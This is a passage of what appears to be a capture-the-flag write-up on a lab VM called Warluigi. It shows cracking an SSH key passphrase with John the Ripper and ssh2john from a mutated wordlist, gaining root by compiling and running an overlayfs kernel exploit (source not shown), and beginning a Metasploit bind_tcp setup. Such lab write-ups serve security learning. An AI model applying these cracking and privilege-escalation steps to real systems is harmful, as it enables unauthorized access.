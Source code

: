 After forgetting to apply the correct permissions, I ran `chmod 400 warluigi_rsa/id_rsa` and tried again, to find that the key had a passphrase.

In an attempt to build up a relevant word list, I used three words as the seeds for the permutations:

* warluigi (the name of the VM)
* war (one of the two words in Mario's last message that were en-quoted)
* naughty (one of the two words in Mario's last message that were en-quoted)

```shell_session
root@kali:~# john --wordlist=warluigi.txt --rules --stdout > warluigi-mutated.txt
Press 'q' or Ctrl-C to abort, almost any other key for status
148p 0:00:00:00 100.00% (2017-06-13 21:23) 2114p/s Naughtying
```

Once I had the word list built, I proceeded to run the private key through `ssh2john` and then cracked it using JTR:

```shell_session
root@kali:~# ssh2john warluigi_rsa/id_rsa > warluigi_rsa/id_john
root@kali:~# john --wordlist=warluigi-mutated.txt warluigi_rsa/id_john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA 32/32])
Press 'q' or Ctrl-C to abort, almost any other key for status
warluigi         (id_rsa)
1g 0:00:00:00 DONE (2017-06-13 21:40) 33.33g/s 33.33p/s 33.33c/s 33.33C/s warluigi
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Getting Root on Warluigi VM
Much like the Mario host, getting root on the Warluigi VM is just a case of compiling and running the overlayfs exploit:

```shell_session
warluigi@warluigi:~$ uname -a
Linux warluigi 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
warluigi@warluigi:~$ nano ofs.c
warluigi@warluigi:~$ gcc ofs.c -o ofs
warluigi@warluigi:~$ chmod +x ofs
warluigi@warluigi:~$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
```

Once I had root, I setup the `multi_handler` module in Metasploit again, but this time with the `bind_tcp` payload, in order to get a Meterpreter session on Warluigi:

